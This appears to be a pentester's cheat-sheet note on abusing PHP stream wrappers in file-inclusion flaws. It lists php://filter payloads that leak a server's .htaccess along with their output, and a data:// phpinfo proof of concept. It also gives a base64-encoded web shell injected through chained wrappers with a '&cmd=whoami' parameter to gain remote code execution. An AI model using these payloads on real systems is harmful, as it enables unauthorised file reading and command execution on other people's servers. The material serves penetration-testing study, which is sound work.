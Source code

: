PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

### Filter Wrapper

For example, the table below represents the output of the target file .htaccess using the different string filters in PHP, Don't forget to add `?page=`.

| **Payload**                                           | **Output**                                   |
| ----------------------------------------------------- | -------------------------------------------- |
| php://filter/convert.base64-encode/resource=.htaccess | UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz |
| php://filter/string.rot13/resource=.htaccess          | ErjevgrRatvar ba Bcgvbaf -Vaqrkrf            |
| php://filter/string.toupper/resource=.htaccess        | REWRITEENGINE ON OPTIONS -INDEXES            |
| php://filter/string.tolower/resource=.htaccess        | rewriteengine on options -indexes            |
| php://filter/string.strip_tags/resource=.htaccess     | RewriteEngine on Options -Indexes            |
| No filter applied                                     | RewriteEngine on Options -Indexes            |

### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly within the URI, often used for embedding small data sets or resources.

**Note:** allow_url_include must be set!

For example, `?page=data:text/plain,<?php%20phpinfo();%20?>` (POC)

We could use both data and filter by adding this payload `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=` which belongs to this `<?php system($_GET['cmd']);?>`, then we could do something like this:
`php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami`

Now we have RCE!.

![](../Attachments/Pasted%20image%2020240212141401.png)

Taken from https://www.cdxy.me/?p=752

check https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams for more payloads and testing.